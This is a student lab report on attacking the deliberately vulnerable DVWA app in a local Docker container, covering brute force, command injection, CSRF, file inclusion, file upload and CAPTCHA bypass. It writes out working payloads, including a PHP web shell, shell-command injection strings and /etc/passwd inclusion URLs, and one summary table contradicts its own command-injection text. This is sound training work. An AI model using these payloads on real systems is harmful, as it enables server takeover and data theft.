# DVWA Security Lab Report

## Student Information
- Name: Fowzi Ali
- Course: Cybersecurity: Theory, Tools
- Assignment: Application Security Testing
- Date: March 8th, 2026

---

# Environment Setup

## Docker Installation

Command used:

```
docker --version
```

Result:
Docker installed successfully.

Screenshot:



---

## DVWA Deployment

Command used:

```
docker pull vulnerables/web-dvwa
docker run -d -p 8080:80 --name dvwa vulnerables/web-dvwa
```

Verification:

```
docker ps
```

Result:
The DVWA container is running successfully.

Screenshot:



DVWA was accessible at:

http://localhost:8080

Screenshot:



---

# Vulnerability Testing

## Brute Force Authentication

Description:
The brute force vulnerability allows an attacker to attempt multiple username/password combinations until the correct credentials are discovered.

Testing Tool:
Burp Suite Intruder

---

### Security Level: Low

Payload Used:

username: admin  
password list:
123456
admin
letmein
karachi123
password

Steps Performed:

1. Intercept login request using Burp Suite.
2. Send request to Intruder.
3. Configure password field as payload position.
4. Load password wordlist.
5. Start attack.

Result:

Burp Suite successfully identified the correct password **password** for the admin account.

Observation:

The application allowed unlimited login attempts with no rate limiting or CAPTCHA protection.

Screenshot:



Explanation (Why it Worked):

The application does not implement any protection mechanisms such as:

- account lockout
- request throttling
- CAPTCHA
- IP blocking

Because of this, automated password guessing attacks succeed easily.

---

### Security Level: Medium

Payload Used:

Same password list as above.

Result:

The attack still works but is slower because the application introduces a delay between login attempts.

Screenshot:



Explanation (Why It Is Harder):

Medium security introduces basic protections such as:

- request validation
- delay between login attempts

This slows down automated brute force attempts but does not fully prevent them.

---

### Security Level: High

Payload Used:

Password wordlist:

123456
admin
letmein
karachi123
password

Steps Performed:

1. Open **Burp Suite** and enable Proxy Intercept.
2. Submit a login request in DVWA to capture the request.
3. Send the request to **Burp Intruder**.
4. Identify the **password parameter** as the payload position.
5. Extract the **user_token value** from the request.
6. Configure Intruder to update the CSRF token dynamically for each request.
7. Launch the brute force attack using the password wordlist.

Result:

Burp Suite successfully identified the correct password **password** even at High security level.

Screenshot:




Explanation (Why it Worked):

At High security level, DVWA introduces additional protections including:

- CSRF tokens
- request validation

Each login attempt requires a valid `user_token` parameter. However, by intercepting the request using Burp Suite and dynamically updating the CSRF token during the attack, the protection can be bypassed. This allows automated brute force attempts to continue until the correct password is discovered.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No protection |
| Medium | Successful | Basic validation and delay |
| High | Successful | CSRF token bypassed using Burp Suite |

---

### OWASP Top 10 Mapping

Category:  
Broken Authentication (OWASP A2)

## Command Injection

Description:
Command Injection occurs when an application passes unsanitized user input to the operating system shell. An attacker can inject additional commands to execute arbitrary system operations on the server. This vulnerability is commonly found in poorly validated system utilities such as ping or network tools.

---

### Security Level: Low

Payload Used:

```
127.0.0.1; ls
```

Other payloads:

```
127.0.0.1 && ls
127.0.0.1 | ls
127.0.0.1; whoami
```

Steps Performed:

1. Navigate to **DVWA → Command Injection**.
2. Set DVWA Security Level to **Low**.
3. Enter the payload in the **IP address field**.
4. Click **Submit**.

Result:

The application executed both the **ping command** and the injected command. The server returned the directory listing or system information.

Screenshot:



Explanation (Why it Worked):

At Low security level, DVWA directly inserts the user input into a system command:

```
ping -c 4 <user_input>
```

Since no input validation is applied, command separators like `;` allow attackers to execute additional commands.

---

### Security Level: Medium

Payload Used:

```
127.0.0.1 && ls
```

or

```
127.0.0.1 | ls
```

Result:

Some command separators may still work, allowing partial command execution.

Screenshot:



Explanation (Why It Is Harder):

Medium security introduces basic input filtering to block dangerous characters like `;`. However, other operators such as `&&` or `|` may still bypass the filter.

---

### Security Level: High

Payload Used:

```
127.0.0.1 || ls
```

Steps Performed:

1. Navigate to **DVWA → Command Injection**.
2. Set DVWA Security Level to **High**.
3. Enter the payload into the **IP address field**.
4. Click **Submit**.

Result:

The injected command executed successfully and the server returned the output of the additional command.

Screenshot:



Explanation (Why it Worked):

At High security level in DVWA, the application attempts to validate the input so that it resembles a valid IP address before executing the system command.

However, the filtering mechanism does not properly block certain shell operators such as `||`. In many Unix-like shells, the `||` operator allows the second command to execute if the first command fails.

By providing the input `127.0.0.1 || ls`, the attacker injects an additional command into the shell execution. This allows the `ls` command to run on the server, revealing the directory contents and demonstrating successful command injection despite the input validation.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No input validation |
| Medium | Successful | Basic filtering |
| High | Successful | Newline injection bypassed input validation |

---

### OWASP Top 10 Mapping

Category:

Injection (OWASP A03)

### More PHP Payloads:
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python

## Cross-Site Request Forgery (CSRF)

Description:
Cross-Site Request Forgery (CSRF) is a vulnerability that allows an attacker to trick a logged-in user into performing unintended actions on a web application. The attacker crafts a malicious request that is automatically executed by the victim's browser because the user is already authenticated.

---

### Security Level: Low

Payload Used:

```
http://localhost:8080/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change
```

Steps Performed:

1. Navigate to **DVWA → CSRF**.
2. Set DVWA Security Level to **Low**.
3. Capture the password change request URL.
4. Modify the URL with a new password value.
5. Open the malicious URL while logged in.

Result:

The password for the logged-in user was successfully changed without any confirmation.

Screenshot:



Explanation (Why it Worked):

At Low security level, the application does not verify whether the request originated from the legitimate website. Since the user is already authenticated, the browser automatically includes the session cookie, allowing the request to execute successfully.

---

### Security Level: Medium

Payload Used:

```
http://localhost:8080/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change
```

Result:

The attack becomes harder because the application checks the HTTP referrer header.

Screenshot:





Explanation (Why It Is Harder):

Medium security introduces a basic validation check that verifies whether the request originated from the same application using the HTTP referrer header. However, referrer headers can sometimes be bypassed or manipulated.

---

### Security Level: High

Payload Used:

Request captured using Burp Suite containing a valid CSRF token.

Example request:

http://localhost:8080/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&user_token=<VALID_TOKEN>&Change=Change

Steps Performed:

1. Navigate to **DVWA → CSRF**.
2. Set DVWA Security Level to **High**.
3. Open **Burp Suite** and enable the **Proxy Intercept** feature.
4. Change the password in DVWA to capture the request.
5. Send the captured request to **Repeater**.
6. Extract the **user_token value** from the request.
7. Reuse the token inside a crafted malicious request.

Result:

The password was successfully changed after replaying the request with a valid CSRF token.

Screenshot:





Explanation (Why it Worked):

At High security level, DVWA introduces a CSRF token (`user_token`) to protect the request.

However, the token can still be captured from a legitimate request using **Burp Suite** and reused in another request before it expires.

Since the server only checks whether the token exists and is valid, replaying the request with a captured token allows the attacker to bypass the CSRF protection.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No request validation |
| Medium | Successful | Referrer header check can be bypassed |
| High | Successful | CSRF token captured and replayed using Burp Suite |

---

### OWASP Top 10 Mapping

Category:

Broken Access Control (OWASP A01)

## File Inclusion

Description:

File Inclusion vulnerabilities occur when a web application dynamically loads files based on user input without proper validation. Attackers can manipulate the file path to include unintended files from the server, potentially exposing sensitive information.

---

### Security Level: Low

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/fi/?page=file4.php
```

Steps Performed:

1. Navigate to **DVWA → File Inclusion**.
2. Set DVWA Security Level to **Low**.
3. Modify the `page` parameter in the URL.
4. Change the file value to `file4.php`.

Result:

The application successfully loaded **file4.php**, which is not directly accessible through the normal interface.

Screenshot:



Explanation (Why it Worked):

At Low security level, DVWA directly loads the file specified in the `page` parameter without validating or restricting the file name. Because of this, attackers can manually modify the URL to include any file that exists within the application's directory.

---

### Security Level: Medium

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/fi/?page=//etc/passwd
```

Steps Performed:

1. Navigate to **DVWA → File Inclusion**.
2. Set DVWA Security Level to **Medium**.
3. Modify the `page` parameter in the URL.
4. Use the payload `//etc/passwd` to attempt loading a system file.

Result:

The contents of the `/etc/passwd` file were displayed in the browser.

Screenshot:



Explanation (Why it Worked):

At Medium security level, DVWA attempts to prevent directory traversal attacks by filtering patterns like `../`. However, the filter is weak and does not properly block alternative path formats. By using `//etc/passwd`, the attacker bypasses the filter and forces the application to include the sensitive system file.

---

### Security Level: High

Payload Used:

```
http://127.0.0.1:8080/vulnerabilities/fi/?page=file:////etc/passwd
```

Steps Performed:

1. Navigate to **DVWA → File Inclusion**.
2. Set DVWA Security Level to **High**.
3. Modify the `page` parameter in the URL.
4. Use the `file://` protocol to attempt file inclusion.

Result:

The application successfully displayed the contents of the `/etc/passwd` file.

Screenshot:


Explanation (Why it Worked):

At High security level, DVWA attempts to restrict file inclusion by validating the file path and blocking common directory traversal techniques. However, the application does not properly validate URI schemes. By using the `file://` protocol, the attacker bypasses the input validation and forces the application to load a sensitive system file from the server.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No file validation |
| Medium | Successful | Directory traversal filter bypass |
| High | Successful | `file://` protocol bypass |

---

### OWASP Top 10 Mapping

Category:

Security Misconfiguration (OWASP Top 10 A05:2021)

## File Upload

Description:

File Upload vulnerabilities occur when a web application allows users to upload files without properly validating the file type or content. Attackers can exploit this weakness by uploading malicious scripts such as web shells, which may allow remote command execution on the server.

---

### Security Level: Low

Payload Used:

A simple PHP web shell file.

Example file: `shell.php`

```
<?php system($_GET['cmd']); ?>
```

Steps Performed:

1. Navigate to **DVWA → File Upload**.
2. Set DVWA Security Level to **Low**.
3. Create a PHP shell file named `shell.php`.
4. Upload the file using the upload form.
5. Access the uploaded file through the browser.

Example access URL:

```
http://127.0.0.1:8080/hackable/uploads/shell.php?cmd=ls
```

Result:

The uploaded PHP shell executed successfully and allowed system commands to be run from the browser.

Screenshot:



Explanation (Why it Worked):

At Low security level, DVWA does not perform any validation on uploaded files. This allows attackers to upload executable PHP scripts directly to the server and execute them remotely.

---

### Security Level: Medium

Payload Used:

A PHP shell file disguised as an image.

Example filename:

```
shell.php.jpg
```

Steps Performed:

1. Navigate to **DVWA → File Upload**.
2. Set DVWA Security Level to **Medium**.
3. Rename the malicious file to `shell.php.jpg`.
4. Upload the file through the upload form.

Result:

The file upload succeeded because the application only checked the file extension superficially.

Screenshot:



Explanation (Why it Worked):

At Medium security level, DVWA attempts to restrict uploads by checking the file extension. However, the validation is weak and can be bypassed by disguising the PHP file with an allowed extension such as `.jpg`.

---

### Security Level: High

Payload Used:

A PHP shell file with a manipulated MIME type and disguised filename.

Example file content:

```
GIF89a;
<?php system($_GET['cmd']); ?>
```

Filename used in the request:

```
shell.php.jpeg
```

Steps Performed:

1. Navigate to **DVWA → File Upload**.
2. Set DVWA Security Level to **High**.
3. Intercept the file upload request using **Burp Suite**.
4. Modify the request to use the filename `shell.php.jpeg`.
5. Change the `Content-Type` header of the file upload request:

```
Content-Type: image/jpeg
```

6. Forward the modified request to the server.

Result:

The malicious PHP file was successfully uploaded and executed despite the file type restrictions.

Screenshot:




Explanation (Why it Worked):

At High security level, DVWA validates both the file extension and MIME type.  

- Adding `.jpeg` to the filename bypasses the extension check.  
- Changing the `Content-Type` header to `image/jpeg` bypasses MIME type validation.  
- Prepending `GIF89a;` to the file content tricks the server into recognizing it as a valid image.  

This allows the PHP code to be uploaded and executed on the server despite the high-level protections.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No file validation |
| Medium | Successful | File extension bypass |
| High | Successful | MIME type manipulation |

---

### OWASP Top 10 Mapping

Category:

Security Misconfiguration (OWASP Top 10 A05:2021)

## Insecure CAPTCHA

Description:

An Insecure CAPTCHA vulnerability occurs when a CAPTCHA mechanism meant to prevent automated actions can be bypassed due to improper server-side validation. Attackers may manipulate requests or parameters to bypass CAPTCHA verification entirely.

---

### Security Level: Low

Payload Used:

```
step=2&password_new=test123&password_conf=test123&Change=Change
```

Steps Performed:

1. Navigate to **DVWA → Insecure CAPTCHA**.
2. Set DVWA Security Level to **Low**.
3. Enter a new password and confirmation password.
4. Intercept the request using **Burp Suite**.
5. Remove the CAPTCHA validation parameter and directly submit the password change request.

Result:

The password was successfully changed without solving the CAPTCHA.

Screenshot:




Explanation (Why it Worked):

At Low security level, DVWA does not properly validate the CAPTCHA on the server side. The application only relies on client-side validation, allowing attackers to bypass the CAPTCHA by directly modifying the request.

---

### Security Level: Medium

Payload Used:

```
step=2&password_new=test123&password_conf=test123&passed_captcha=true&Change=Change
```

Steps Performed:

1. Navigate to **DVWA → Insecure CAPTCHA**.
2. Set DVWA Security Level to **Medium**.
3. Intercept the password change request using **Burp Suite**.
4. Modify the parameter `passed_captcha` to `true`.
5. Forward the modified request.

Result:

The application accepted the request and the password was changed without correctly solving the CAPTCHA.

Screenshot:




Explanation (Why it Worked):

At Medium security level, DVWA uses a parameter (`passed_captcha`) to track whether the CAPTCHA was solved. However, this parameter is controlled by the client and not securely validated on the server, allowing attackers to manually set it to `true`.

---

### Security Level: High

Payload Used:

```
step=2&password_new=test123&password_conf=test123&g-recaptcha-response=hidd3n_valu3&Change=Change
```

Modified Header:

```
User-Agent: reCAPTCHA
```

Steps Performed:

1. Navigate to **DVWA → Insecure CAPTCHA**.
2. Set DVWA Security Level to **High**.
3. Intercept the password change request using **Burp Suite**.
4. Modify the request parameters by adding:

```
g-recaptcha-response=hidd3n_valu3
```

5. Modify the HTTP header:

```
User-Agent: reCAPTCHA
```

6. Forward the modified request to the server.

Result:

The password was successfully changed without solving the CAPTCHA challenge.

Screenshot:




Explanation (Why it Worked):

At High security level, DVWA attempts to verify CAPTCHA responses using the `g-recaptcha-response` parameter. However, the application does not properly validate the CAPTCHA response with the verification service.

By manually setting:

```
g-recaptcha-response=hidd3n_valu3
```

and modifying the request header to:

```
User-Agent: reCAPTCHA
```

the attacker tricks the application into assuming that the CAPTCHA verification was completed successfully, allowing the protected action to proceed.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | No server-side CAPTCHA validation |
| Medium | Successful | Client-controlled CAPTCHA parameter |
| High | Successful | Request flow manipulation |

---

### OWASP Top 10 Mapping

Category:

Identification and Authentication Failures (OWASP Top 10 A07:2021)
